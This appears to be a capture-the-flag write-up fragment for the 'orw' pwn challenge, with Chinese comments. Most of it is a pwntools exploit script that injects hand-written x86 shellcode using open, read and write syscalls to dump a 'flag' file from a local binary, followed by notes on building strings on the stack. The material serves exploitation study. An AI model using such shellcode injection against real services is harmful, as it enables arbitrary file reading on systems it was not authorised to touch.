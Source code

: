 ![image-20220726224716265](/assets/img/2022/image-20220726224716265.png)

exp:

```python
from pwn import *


r = process('./orw.bin')
r.recvuntil(':')

"""
fp = open('flag', 0)
read(fp, buf, 0x30)
write(1, buf, 0x30)
"""
p = asm("""
    jmp file 
orw :
    pop ebx
    mov eax, 5  
    xor ecx, ecx
    int 0x80

    mov ebx, eax
    mov ecx, esp 
    mov edx, 30
    mov eax, 3
    int 0x80

    mov edx, 30
    mov ebx, 1
    mov ecx, esp
    mov eax, 4
    int 0x80

    mov eax, 1
    int 0x80
file :
    call orw
    .ascii "flag"
    .byte 0
""")
# 汇编最后加上了调用exit，没加上陷入死循环了
r.sendline(p)


r.interactive()
```

> push 1; 
>
> dec byte ptr [esp];  先将1入栈后在用dec指令减1，得到0用于截断
>
> push 0x67616c66; 再将“flag”入栈作为指针数组的第一个元素  hex(u32('flag'))
>
>  mov ebx,esp;  ebx指向栈顶也就是指向 open函数的第一个参数（指针数组）
>
> 字符串也可以这么处理
